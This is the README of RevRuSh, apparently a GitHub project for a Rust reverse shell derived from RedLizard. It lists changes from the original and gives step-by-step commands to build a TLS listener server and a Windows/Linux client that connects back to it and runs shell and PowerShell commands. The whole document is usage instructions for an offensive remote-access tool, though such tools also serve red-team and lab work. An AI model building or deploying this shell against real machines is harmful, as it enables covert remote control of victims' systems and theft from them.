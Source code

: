 # RevRuSh - A sample reverse shell in Rust
Based on [RedLizard](https://github.com/trickster0/RedLizard)

![Redlizard](screen.png)

### Note
Since the author does not mantained the original reoository anymore: https://github.com/trickster0/RedLizard/pull/1, I decided to create a new indipendent repository.

### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


### Requirements:
- rustc & cargo >= 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
### Advises
- better run server on linux

### Prepare the server
    cd RevRuSh/server
    openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout my.key -out my.crt && \
    openssl pkcs12 -export -out revrush.pfx -inkey my.key -in my.crt && \
    mv revrush.pfx src

    cargo b --release
    
### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
target/release/revrush_server Zinz01 8443
```

### Prepare the client
    cd RevRuSh-main\client>
    cargo b --release
    
### Run the client
Pass the server:port as argument.
```
target\release\revrush_client.exe <server IP>:8443
```
If you want to run powershell command you can execute:
         
    ~$: powershell -c get-help

#### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```rust
 "127.0.0.1:4443".to_owned()
```
#### Known issues
~~Don't send empty command to the client, just hitting carriage return, since the server will loose the shell, not the connection. The reuslt will be a hanging session~~

